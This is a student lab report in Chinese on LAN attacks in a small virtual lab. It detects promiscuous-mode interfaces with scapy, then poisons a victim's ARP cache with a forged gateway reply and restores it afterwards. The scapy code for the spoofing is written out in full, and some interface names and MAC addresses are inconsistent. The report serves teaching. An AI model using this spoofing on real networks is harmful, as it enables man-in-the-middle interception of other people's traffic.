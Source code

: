 # 实验四 实验报告

### 网络拓扑

- 攻击者主机
  - 08:00:27:0e:34:8d / eth0
  - 10.0.2.5
- 受害者主机
  - 08:00:27:1d:6c:7e / eth0
  - 172.16.111.100
- 网关
  - 08:00:27:71:81:de / enp0s9
  - 172.16.111.1

## 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eh0
```

<img src="./img/ip beat-kali.png" style="zoom:80%;" />

```
# 在攻击者主机上开启 scapy
sudo scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.128")
```

<img src="./img/scapy.png" style="zoom:80%;" />

<img src="./img/scapy1.png" style="zoom:80%;" />

```
# 在攻击者主机上开启 scapy
sudo scapy
```

<img src="./img/scapy2.png" style="zoom:80%;" />

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.100")
```

<img src="./img/pkt.png"  />

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth
```

<img src="./img/hunza.png" style="zoom:80%;" />

<img src="./img/showeth0.png" style="zoom:80%;" />

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.100")
```

<img src="./img/back'.png" style="zoom:80%;" />

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1. 获取当前局域网的网关 MAC 地址

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

<img src="./img/arp.png" style="zoom:80%;" />

<img src="./img/showarp.png" style="zoom: 200%;" />

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

<img src="./img/sendarp.png" style="zoom: 100%;" />

```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

<img src="./img/mac.png" style="zoom: 100%;" />

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.100
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.100", hwdst="08:00:27:0e:34:8d")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

<img src="./img/sendattack.png" style="zoom: 120%;" />

回到攻击者主机上的 scapy 交互式终端继续执行命令

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:bb:14:c1", pdst="172.16.111.100",
hwdst="08:00:27:ad:81:3c")
sendp(restorepkt1, count=100, inter=0.2)
```

<img src="./img/begateway.png" style="zoom: 100%;" />

检查受攻击者的ip

<img src="./img/beingat.png" style="zoom: 100%;" />